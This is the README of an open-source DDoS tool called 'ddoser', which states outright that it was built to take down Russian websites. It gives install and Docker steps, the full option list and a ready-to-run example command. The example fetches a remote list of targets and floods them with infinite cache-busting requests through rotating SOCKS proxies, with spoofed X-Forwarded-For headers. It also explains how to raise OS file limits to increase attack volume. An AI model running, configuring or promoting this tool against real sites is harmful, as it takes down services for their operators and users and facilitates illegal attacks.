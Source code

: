 # The you seddoser
Small application for ddos attack, was developed special for kill russian's resources :)
# Contacts
If you have a questions or any proposal/bug thern pls contact us [ddoser telegram group](https://t.me/+eodJuvlTiK9hYWYy)
## Docker run (easy way)
Install docker https://docs.docker.com/engine/install/
```shell
# with default urls and proxies
docker run --ulimit nofile=100000:100000 -it imsamurai/ddoser
# with custom params
docker run --ulimit nofile=100000:100000 -it imsamurai/ddoser --target-urls-file sime.txt ... (check usage section)
# help
docker run --ulimit nofile=100000:100000 -it imsamurai/ddoser --help
```
Each run will update ddoser inside.
## Install
### Linux
```shell
sudo apt install python3
sudo apt install python3-pip
git clone https://github.com/taransergey/ddoser.git
cd ddoser/
pip install -r requirements.txt
```
### MacOs
Download and install python3.7-3.9 form here https://www.python.org/downloads/macos/ if you don't have it
or install by brew
```shell
brew install python@3.9
brew link python@3.9
```
### Common for any system
```shell
git clone https://github.com/taransergey/ddoser.git
cd ddoser/
pip install -r requirements.txt
```
## Run
```shell
Usage: ddoser.py [OPTIONS]

  Run ddoser

Options:
  --target-url TEXT         ddos target url
  --target-urls-file TEXT   path or url to file contains urls to ddos
  --proxy-url TEXT          url to proxy resourse
  --proxy-file TEXT         path to file with proxy list
  --concurrency INTEGER     concurrency level
  --count INTEGER           requests count (0 for infinite)
  --timeout INTEGER         requests timeout
  --verbose                 Show verbose log
  --with-random-get-param   add random get argument to prevent cache usage
  --user-agent TEXT         custom user agent
  --ignore-response         do not wait for response body
  --log-to-stdout           log to console
  --random-xff-ip           set random ip address value for X-Forwarder-For header
  --restart-period INTEGER  period in seconds to restart application (reload proxies ans targets)
  --custom-headers  JSON    set custom headers as json
  --stop-attack  INT        stop the attack when the target is down after N tries
  --help                    Show this message and exit.
```
proxy-file or proxy-url should contain proxy list in format like:
```text
ip1:port1#sock5
ip2:port2#sock4
...
ipN:portN#sock4
```
### Example cmd
```shell
python3 ./ddoser.py --concurrency 100 --timeout 60 --with-random-get-param --user-agent "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.102 Safari/537.36" --ignore-response --count 0 --log-to-stdout --target-urls-file https://raw.githubusercontent.com/maxindahouze/reactor/main/targets1.txt --custom-headers '{"name": "value"}' --stop-attack
```
## Notes
**ddoser** supports only sock proxy, also can start it directly without proxy

If you see an error `too many open files` then you can decrease concurrency/targets count but first of all
try to increase the limits:
### Linux/MacOS:
```shell
ulimit -n 100000
```
### WSL:
```shell
mylimit=100000:
sudo prlimit --nofile=$mylimit --pid $$; ulimit -n $mylimit
```
